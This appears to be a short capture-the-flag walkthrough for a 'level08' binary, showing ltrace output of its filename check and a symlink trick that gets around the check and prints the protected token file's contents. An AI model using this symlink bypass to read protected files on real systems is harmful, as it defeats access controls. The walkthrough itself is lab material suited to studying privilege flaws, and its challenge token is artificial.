 level08  token

-> ltrace ./level08
__libc_start_main(0x8048554, 1, 0xbffff6e4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)               = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++

-> ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff6e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                 = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)             = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++

-> touch /tmp/level08_test
-> chmod 777 /tmp/level08_test
-> ltrace ./level08 /tmp/level08_test
__libc_start_main(0x8048554, 2, 0xbffff6d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/level08_test", "token")                      = NULL
open("/tmp/level08_test", 0, 014435162522)                = 3
read(3, "", 1024)                                        = 0
write(1, "", 0)                                          = 0
+++ exited (status 0) +++

-> ln -s /home/user/level08/token /tmp/level08_ref
-> ./level08 /tmp/level08_ref
quif5eloekouj29ke0vouxean
